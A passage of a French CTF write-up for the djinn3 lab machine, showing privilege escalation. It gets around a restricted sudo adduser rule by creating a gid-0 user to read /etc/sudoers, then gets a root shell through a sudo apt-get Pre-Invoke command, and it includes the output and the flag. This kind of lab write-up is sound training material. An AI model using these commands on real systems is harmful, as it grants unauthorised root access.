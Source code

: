 Il y a une permission `sudo` pour rajouter un utilisateur. La ligne de commande ne doit pas inclure les mots `sudo` ou `admin`.

Ma première idée a été de créer un utilisateur dans le groupe `root` en me disant que je parviendrais à en tirer quelque chose :

```shellsession
sudo /usr/sbin/adduser --gid 0 --home /root --shell /bin/bash devloop
```

En effet c'est suffisant pour lire le contenu de `/etc/sudoers` :

```
saint ALL=(root) NOPASSWD: /usr/sbin/adduser, !/usr/sbin/adduser * sudo, !/usr/sbin/adduser * admin
jason ALL=(root) PASSWD: /usr/bin/apt-get
```

On découvre qu'un utilisateur nommé `jason` (qui n'existe plus sur le système) pouvait utiliser `apt-get` en tant que root.

Une fois l'utilisateur jason créé on peut utiliser un [GTFObin](https://gtfobins.github.io/gtfobins/apt-get/) pour la commande :

```shellsession
jason@djinn3:/home/saint$ sudo /usr/bin/apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
proof.sh
```

Le script affiche le flag final :

```
    _                        _             _ _ _ 
   / \   _ __ ___   __ _ ___(_)_ __   __ _| | | |
  / _ \ | '_ ` _ \ / _` |_  / | '_ \ / _` | | | |
 / ___ \| | | | | | (_| |/ /| | | | | (_| |_|_|_|
/_/   \_\_| |_| |_|\__,_/___|_|_| |_|\__, (_|_|_)
                                     |___/       
djinn-3 pwned...
__________________________________________________________________________

Proof: VGhhbmsgeW91IGZvciB0cnlpbmcgZGppbm4zID0K
Path: /root
Date: Tue Nov 22 17:31:26 IST 2022
Whoami: root
__________________________________________________________________________

By @0xmzfr

Special thanks to @DCAU7 for his help on Privilege escalation process
And also Thanks to my fellow teammates in @m0tl3ycr3w for betatesting! :-)

If you enjoyed this then consider donating (https://blog.mzfr.me/support/)
so I can continue to make these kind of challenges.
```

